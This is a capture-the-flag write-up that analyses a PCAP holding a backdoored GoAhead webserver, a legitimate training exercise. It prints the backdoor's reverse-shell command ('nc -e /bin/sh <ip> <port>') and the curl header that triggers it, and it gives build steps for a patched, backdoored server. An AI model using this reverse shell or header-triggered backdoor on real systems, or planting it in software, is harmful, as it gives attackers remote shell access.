



# Finale part 1

**1000 points**

We intercepted a data transfer from Agent Smith. What's he up to now?

Find out what he has done, and try to prevent whatever his evil scheme might be.

[Download PCAP](transfer.pcapng)

### Exploiting
We're given a PCAP file, so it's time to use some wireshark magic!

We can see a FTP file transfer


Thankfully, Wireshark makes it easy for us to piece together the data transferred.
Right-click one of the FTP-data packets and click `Follow TCP Stream`.


Now we can dump the transfer as raw data!


Let's check what's been transferred.

```
$ file dump
dump: gzip compressed data, last modified: Fri Apr  3 23:18:02 2015, from Unix
$ tar xvf dump
goahead
libgo.so
```

The transfer was a gzip archive with two files inside, `goahead` and `libgo.so`.
Googling `goahead` reveals that it's a webserver.


**Insert Aleksi magic here**

The webserver forks and calls execve to run `nc` with the following arguments:
`nc -e /bin/sh <ip> <port>`

The server will connect back to our IP address on the port supplied as the header value. Let's do some testing!

Start up netcat in listening mode:

`nc -l -p 1337 -v`

Send the custom HTTP header:

`curl --header "allow-backdoor: 1337" 127.0.0.1`

Tada! Now we have access to CERN Time Continuum Shell!

```
* FOR CLASSIFIED PERSONELL ONLY! *

Welcome to CERN Time Continuum Shell
Please resize your terminal to 80x25 for the optimal time travelling experience.

CERN TIMECTRL> help
Available commands:
  travel
  history
  help
  exit

CERN TIMECTRL> history
Last Command:
00:31 04/04/15: travel 2001 april 11

CERN TIMECTRL> travel
ERROR: wrong syntax
usage: travel <year> <month> <day>

CERN TIMECTRL> travel 2001 april 11
Warning: Experimental feature

         ARE YOU SURE? (y/n) y

Starting Dark Matter Collector      [*]
Starting Time Dilation Engine       [*]
Starting Warp Drive                 [*]
Locating Closest Worm Hole          [*]
Reticulating Splines                [*]
Entering Coordinates                [*]
Engaging Forcefield                 [*]
Creating Time Continuum Vortex      [*]

Time Shift in:  3... 2... 1...
```

Try it yourself to see the awesome ending screen.

### Compiling and running goahead
If you want to test the backdoored webserver yourself, do something like this:

1. `$ git clone git@github.com:embedthis/goahead.git`
2. `$ patch -p1 < backdoor.patch`
3. `$ make && sudo make install`
4. `$ sudo goahead -v --home /etc/goahead /var/www/goahead`
